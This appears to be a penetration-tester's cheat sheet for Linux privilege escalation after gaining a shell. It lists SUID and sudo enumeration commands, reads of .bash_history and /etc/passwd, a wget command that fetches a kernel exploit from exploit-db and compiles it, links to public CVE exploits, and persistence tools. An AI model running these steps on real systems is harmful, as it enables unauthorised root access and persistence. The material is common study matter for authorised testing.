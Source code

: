 
INPUT: Stablished shell
PROCESS:
- Privilege Escalation
    - Manual Vector Finding
        - find / -perm /4000 2>/dev/null
        - find / -type f -user root -perm -u=s 2>/dev/null
        - find / -perm -u=s -type f 2>/dev/null
        - sudo -l
        - sudo -V
        - cat .bash_history
        - cat /etc/passwd
    - Auto Vector Finding
        - linpeas.sh
- Maintain Access
TOOLS
- Kernel Exploit
    - CVE-2017-16995
    - CVE-2021-4034
- GTFOBins
    - find
    - vim
    - sudo
- Python Library Hijacking
OUPUT:
- root shell


## Privilege Escalation
[cve-2017-16995]
    wget https://www.exploit-db.com/download/45010 -O cve-2017-16995.c
    gcc --static cve-2017-16995.c -o cve-2017-16995
[CVE-2021-4034]
    https://www.exploit-db.com/exploits/50689
    https://github.com/ryaagard/CVE-2021-4034
    https://github.com/c3c/CVE-2021-4034
[CVE-2017-0143]
    https://www.exploit-db.com/exploits/43970
[GTFOBins]
    https://gtfobins.github.io/

## Maintain Access
- PowerSploit
- Weewly
- dns2tcp



